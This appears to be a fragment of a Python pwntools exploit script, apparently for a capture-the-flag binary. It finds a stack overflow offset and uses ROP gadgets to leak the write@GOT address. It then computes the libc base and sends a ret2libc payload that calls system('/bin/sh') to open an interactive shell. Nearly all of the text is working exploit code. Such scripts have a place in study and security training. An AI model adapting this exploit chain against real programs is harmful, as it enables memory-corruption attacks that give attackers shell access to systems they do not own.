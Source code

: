 ```python
    r.close()
  print(colored("\n[-] Could not find Overflow Offset!\n", "red"))
  r.close()

'''
Gadgets

Gadget 1:
  0x00000000004009aa <+90>:  pop    rbx
  0x00000000004009ab <+91>:  pop    rbp
  0x00000000004009ac <+92>:  pop    r12
  0x00000000004009ae <+94>:  pop    r13
  0x00000000004009b0 <+96>:  pop    r14
  0x00000000004009b2 <+98>:  pop    r15
  0x00000000004009b4 <+100>: ret

Gadget 2:
  0x0000000000400990 <+64>:  mov    rdx,r15
  0x0000000000400993 <+67>:  mov    rsi,r14
  0x0000000000400996 <+70>:  mov    edi,r13d
  0x0000000000400999 <+73>:  call   QWORD PTR [r12+rbx*8]

'''

def gadgets(payload, g1, g2):
  payload += p64(g1)          # g1
  payload += p64(0)           # pop rbx
  payload += p64(1)           # pop rbp
  payload += p64(e.got.write) # pop r12 -> call
  payload += p64(1)           # pop r13 -> rdi
  payload += p64(e.got.write) # pop r14 -> rsi
  payload += p64(0x8)         # pop r15 -> rdx
  payload += p64(g2)          # ret
  payload += p64(0)*7         # pops
  payload += p64(e.sym.vulnerable_function)  # return to vulnerable function
  return payload

def ret2libc(r, prompt, offset):
  # Leak write@got address
  leak = r.recvline_contains(b"\x7f").strip()
  leak = u64(leak.ljust(8, b"\x00"))
  print(colored("[+] Leaked address    @ 0x{:x}".format(leak), "green"))
  libc.address = leak - libc.sym.write
  print(colored("[+] Libc base address @ 0x{:x}".format(libc.address), "green"))
  
  # Check if libc base is correct, should end with 000
  if libc.address & 0xfff != 000:
   print(colored("[-] Libc base does not end with 000!", "red"))
   exit()

  # Craft paylaod to call system("/bin/sh") and spawn shell
  pop_rdi  = rop.find_gadget(["pop rdi"])[0]
  payload  = b"A"*offset
  payload += p64(pop_rdi)
  payload += p64(next(libc.search(b"/bin/sh")))
  payload += p64(pop_rdi + 1) # stack alignment
  payload += p64(libc.sym.system)
  r.sendlineafter(prompt, payload)
  r.interactive()

def pwn():
  # Find the overflow offset
  offset = find_boffset(200)
```